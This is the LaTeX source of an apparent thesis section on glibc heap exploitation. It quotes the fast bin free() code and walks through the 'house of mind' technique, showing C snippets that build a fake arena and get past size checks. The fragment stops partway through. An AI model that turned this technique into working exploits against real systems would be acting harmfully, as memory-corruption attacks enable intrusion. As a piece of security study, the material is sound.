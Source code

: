 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\fb{fast bins}
\newcommand*\mmapc{\lstinline{mmap}}
\begin{document}
\subsection{Fast bin}
Consider following code of \fb{}
\begin{lstlisting}[language=c,frame=tlrb]
if ((unsigned long)(size) <= (unsigned long)(av->max_fast)){
	if (chunk_at_offset (p, size)->size <= 2 * SIZE_SZ
	|| __builtin_expect (chunksize (chunk_at_offset (p, size)) >= av->system_mem, 0)){
		errstr = "free(): invalid next size (fast)";
		goto errout;
}
set_fastchunks(av);
fb = &(av->fastbins[fastbin_index(size)]);
 /* ... */
p->fd = *fb;
*fb = p;
}

 \end{lstlisting}
The ideal way in this approach is to take control of fb, so, in the following line, fb overwrites on target. This scenario needs to bypass conditions too. This attack still works on the current version on \libc{}, so let us see a real sample from how2heap on the house of mind. Consider the following code:
\begin{lstlisting}[language=c,frame=tlrb]
int HEAP_MAX_SIZE = 0x4000000;
int MAX_SIZE = (128*1024) - 0x100;
\end{lstlisting}

The first line is maximum heap size, also, the second line is maximum chunk size. This is the threshold of \mmapc{}.
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* fake_arena = malloc(0x1000);
uint8_t* target_loc = fake_arena + 0x30;
uint8_t* target_chunk = (uint8_t*) fake_arena - 0x10;
\end{lstlisting}

The second step is to initialize the mentioned fake arena and target location. Then, initial \lstinline{malloc_state} of the arena, also, \lstinline{system_mem} field. This field is used to validate the size of the chunk, so it must be larger than our chunk size.
\begin{lstlisting}[language=c,frame=tlrb]
fake_arena[0x888] = 0xFF;
fake_arena[0x889] = 0xFF;
fake_arena[0x88a] = 0xFF;
\end{lstlisting}

Now we need to find the location of fake arena
\begin{lstlisting}[language=c,frame=tlrb]
uint64_t new_arena_value = (((uint64_t) target_chunk) + HEAP_MAX_SIZE) & ~(HEAP_MAX_SIZE - 1);
uint64_t* fake_heap_info = (uint64_t*) new_arena_value;
\end{lstlisting}
\end{document}
